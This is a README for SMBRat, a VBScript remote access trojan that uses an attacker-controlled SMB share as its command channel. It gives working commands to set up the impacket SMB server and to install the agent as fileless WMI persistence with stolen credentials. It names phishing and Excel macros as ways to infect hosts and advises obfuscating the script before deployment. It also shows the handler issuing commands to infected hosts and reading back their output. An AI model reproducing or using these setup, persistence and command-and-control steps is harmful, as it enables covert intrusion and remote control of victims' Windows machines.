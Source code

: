 # SMBRat
A Windows Remote Administration Tool in *Visual Basic Script*


## Idea
*Windows Environments* like *Active Directory* Networks, get really bloated with *SMB* traffic.

All hosts get *Policies* from the *SYSVOL*, configurations need remote files to work, desktop shortcuts tend to point to ``\\something\else\in\the\network.exe``.

None would notice one more connection attempt. *Right?*

 \- Especially if it succeeds (it is a fashion to only monitor *Firewall* ***Denies***)


## Ingredients


### Agent

The `agent` is a *Visual Basic Script* that runs on the infected host and connects to the *SMB Server*. It creates a folder in there named after the host's `hostname` and primary `MAC` address (trying to be *unique* and *informative* at the same time for reporting purposes).
It does **NOT** use a drive letter to *Mount* the Share, just uses `UNC paths` to directly read remote files.
It also injects the `UNC path` into the `%PATH%` variable of its execution environment.

#### Agent's Execution

The `agent` is configured to **run once**. **Statelessly**.
It looks for a file named `exec.dat` in the folder it created in the *SMB Share*
If it finds the file, it **reads its content** and executes it as a command with `cmd.exe /c <command>` like a *semi-interactive shell*.
The command's response is stored in `output.dat` (next to `exec.dat`). 
Then deletes the `exec.dat` file.


### Handler

The `handler` needs an *SMB Server* to work. The `smbserver.py` module from [*Core Security's* `impacket`](https://github.com/coresecurity/impacket) package will do.

Most probably `smbd` would also do the trick, but hasn't been tested yet.

#### Setting up the *SMB Server*

A share with name `D$` is needed, to look like a legit Windows host's SMB.

```bash
# mkdir Share
# smbserver.py -comment "My Share" "D$" Share/
Impacket v0.9.17-dev - Copyright 2002-2018 Core Security Technologies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```


## Infection Scheme

A *While loop* can be added to the `agent.vbs`  file's beginning, with a delay statement of multiple seconds (10 secs is ideal), and it will be able to infect windows hosts by *double clicking* / *phishing* / *excel macros* / etc...

Yet, if a Windows host has *RPC* enabled, it is possible to install the *VBS* file as *fileless malware* through `WMI` and the fabulous `impacket` package examples with a command like:
```bash
$ examples/wmipersist.py '<username>:<password>@<hostname/ipaddress>' install -vbs agent.vbs -name smbrat -timer 10
```  

It is also possible to utilize the `WMI` tool by local access to install the `agent.vbs`

### Obfuscation?
Visual Basic Scripts can be nicely *obfuscated*, *base64*'d as well as *minified*.

It can be really handy to give it a spin before "deploying" :wink:
* [Online Tool for VBS Obfuscation](https://isvbscriptdead.com/vbs-obfuscator/)
* [Github Repo](https://github.com/DoctorLai/VBScript_Obfuscator)

## Directory Structure in the *SMB Share*

The Directory shared through SMB (named `Share` in this example) will grow using the below structure:
```
	Share/
	|
	\--Project1/
	|	|
	|	\--<Hostname1>-<MAC_ADDRESS1>/
	|	\--<Hostname2>-<MAC_ADDRESS2>/
	|
	\--Project2/
		|
		\--<Hostname3>-<MAC_ADDRESS3>/
	[...]
```

#### Never create folders manually in the Shared Folder



## Barebone Usage

~~At time of writing, no `Handler` shell is implemented,~~ so usage can be done by just using a command like `watch` to inspect the `output.dat` file:

```bash
$ watch -n0.2 cat Share/projectName/DESKTOP-XXXXXXX-AA\:BB\:CC\:DD\:EE\:FF/output.dat
```
and `echo` to write stuff to the `exec.dat` file:
```bash
$ echo 'whoami /all' > Share/projectName/DESKTOP-XXXXXXX-AA\:BB\:CC\:DD\:EE\:FF/exec.dat
```

## The `handler.py`

The experimental shell works as follows: 
```bash
$ python handler.py Share/
SMBRat> 
# When a new host gets infected:
[+] Agent "DESKTOP-EG4OE7J" (00:0C:29:2B:9F:AF) just checked-in for Project: "projectName"

SMBRat> execall whoami /user

[>] Sending 'whoami /user' to "projectName/DESKTOP-EG4OE7J-00:0C:29:2B:9F:AF" ...
		
SMBRat> 
[<] Response from 'projectName/DESKTOP-EG4OE7J-00:0C:29:2B:9F:AF': 


USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18

^^^^^^^^^^^^^^^^^^^^ projectName/DESKTOP-EG4OE7J-00:0C:29:2B:9F:AF ^^^^^^^^^^^^^^^^^^^^
SMBRat> 
				
```

## Outstanding Pitfalls

### SMBv1 is **Not Encrypted** :

```bash
# tcpdump -i eth0 -A
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes

[...]

15:25:06.695502 IP Deskjet-4540.microsoft-ds > 172.16.47.129.3128: Flags [P.], seq 2876:2971, ack 4791, win 2110, length 95 SMB PACKET: SMBreadX (REPLY)

E...,E@.@.V.../.../....8
.&Mi~.6P..>.......[.SMB........................
.@............ .;........... .net localgroup "administrators"

[...]

15:25:06.702916 IP 172.16.47.129.3128 > Deskjet-4540.microsoft-ds: Flags [P.], seq 4917:5111, ack 3097, win 2052, length 194 SMB PACKET: SMBtrans2 (REQUEST)

E...E.@......./.../..8..i~..
.'*P....b.......SMB2......................

.F..z.....(...........z.D.........}..........\.p.r.o.j.e.c.t.N.a.m.e.\.D.E.S.K.T.O.P.-.E.G.4.O.E.7.J.-.0.0.:.0.C.:.2.9.:.2.B.:.9.F.:.A.F.\.o.u.t.p.u.t...d.a.t...

[...]

15:25:06.751372 IP 172.16.47.129.3128 > Deskjet-4540.microsoft-ds: Flags [P.], seq 6049:6393, ack 3748, win 2050, length 344 SMB PACKET: SMBwrite (REQUEST)

E...E.@....L../.../..8..i~. 
.).P....*.....T.SMB........................
.T....$.......'..$.Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Admin
Administrator
defaultuser0
The command completed successfully.

[...]

```

The traffic (file *contents* and *paths*) are tranfered in plaintext if *SMBv1 Server* is used (e.g `impacket` 's `smbserver.py`).

* An encryption/obfuscation layer would totally solve this one!

### The whole Share is *READ/WRITE* to Everyone:

All Agents can modify files stored in the **Whole Share**. Meaning they can modify the `exec.dat` of other Agents...
An `smbmap` will shed light:
```bash
$ smbmap -H 172.16.47.189
[+] Finding open SMB ports....
[+] User SMB session establishd on 172.16.47.189...
[+] IP: 172.16.47.189:445	Name: Deskjet-4540                                      
	Disk                                                  	Permissions
	----                                                  	-----------
	D$                                                	READ, WRITE
	[!] Unable to remove test directory at \\172.16.47.189\D$\SVNRmxBFAO, plreae remove manually
	IPC$                                              	READ, WRITE
	[!] Unable to remove test directory at \\172.16.47.189\IPC$\SVNRmxBFAO, plreae remove manually
```
#### Pay attention to the lack of `-u` and `-p` parameters of `smbmap`.
This is a *NULL session* (like FTP anonymous login). **EVERYONE can change the SHARE Files** and get *Remote Code Execution* on all infected machines.

* Better fire up some `iptables` here...
